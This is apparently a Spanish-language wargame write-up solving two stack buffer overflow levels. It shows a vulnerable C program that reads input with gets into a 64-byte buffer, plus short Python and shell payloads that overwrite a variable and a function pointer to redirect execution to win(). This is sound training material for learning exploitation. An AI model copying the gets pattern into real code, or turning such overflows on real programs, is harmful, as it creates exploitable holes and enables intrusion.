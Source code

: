 Solución:

```
export GREENIE=$(python -c "print('A'*64 + '\x0a\x0d\x0a\x0d')")
./stack2
```

## Stack 3
Código fuente:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
En cuanto a la solución, creamos primero un archivo llamado «exploit.py» con el siguiente contenido:

```
import struct 

win_dir = 0x08048424
junk = 'A'*64

payload = junk + struct.pack('i', win_dir)
print(payload)
```

Como consejo, para saber la dirección exacta del método «win» podemos utilizar un debugger como GDB:

```
gdb stack3
disas win #Mirar la primera línea donde está la dirección del método
```

